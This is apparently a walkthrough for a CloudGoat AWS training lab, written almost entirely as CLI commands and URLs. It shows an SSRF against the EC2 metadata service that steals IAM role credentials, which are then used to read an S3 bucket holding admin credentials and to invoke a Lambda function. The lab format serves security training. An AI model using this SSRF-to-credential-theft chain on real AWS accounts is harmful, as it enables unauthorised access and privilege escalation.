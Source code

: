 `aws configure --profile scenario4_1_user`

`aws lambda list-functions --profile scenario4_1_user`

`aws configure --profile cglambda`

`aws ec2 describe-instances --profile cglambda`

Go to `http://<EC2 instance IP>`

Abuse the SSRF via the "url" parameter to hit the EC2 instance metadata by going to:

`http://<EC2 instance IP>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/`

And then:

`http://<EC2 instance IP>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<the role name>`

Then Add the EC2 instance credentials to your AWS CLI credentials file at `~/.aws/credentials`) as shown below:

```
[ec2role]
aws_access_key_id = asdasdasd
aws_secret_access_key = asdasdsadas
aws_session_token = "asdasdasd"
```

`aws s3 ls --profile cgec2role`

`aws s3 ls --profile cgec2role s3://cg-secret-s3-bucket-<cloudgoat_id>`

`aws s3 cp --profile cgec2role s3://cg-secret-s3-bucket-<cloudgoat_id>/admin-user.txt ./`

`cat admin-user.txt`

`aws configure --profile cgadmin`

`aws lambda list-functions --profile cgadmin`

`aws lambda invoke --function-name cg-lambda-<cloudgoat_id> ./out.txt`

`cat out.txt`